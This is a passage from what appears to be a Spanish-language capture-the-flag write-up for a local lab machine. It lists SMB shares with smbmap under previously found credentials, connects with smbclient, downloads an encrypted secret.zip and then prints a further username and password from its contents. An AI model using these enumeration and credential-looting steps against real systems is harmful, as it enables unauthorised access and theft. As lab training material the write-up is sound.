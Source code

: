 Vamos a ver que podemos ver gracias a **smbmap**:

```bash
smbmap -H 172.17.0.2 -u memehydra -p fuerzabrutasiempre

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 172.17.0.2:445  Name: admin.s3cr3tdir.dev.gitea.dl      Status: NULL Session
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  READ ONLY       Printer Drivers
        share_memehydra                                         READ ONLY
        IPC$                                                    NO ACCESS       IPC Service (62d20d0e9222 server (Samba, Ubuntu))
[*] Closed 1 connections
```

Usamos **smbclient** para conectarnos :
```bash
smbclient //172.17.0.2/share_memehydra -U memehydra
Password for [WORKGROUP\memehydra]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Aug 31 17:15:13 2024
  ..                                  D        0  Sat Aug 31 17:15:13 2024
  secret.zip                          N      224  Sat Aug 31 17:15:06 2024

                229727556 blocks of size 1024. 185846524 blocks available
smb: \> get secret.zip 
getting file \secret.zip of size 224 as secret.zip (2240000.0 KiloBytes/sec) (average inf KiloBytes/sec)


```

Tenemos un zip cifrado, la contra es la restante de arriba.

```bash
cat secret.txt 
memesploit:metasploitelmejor

```
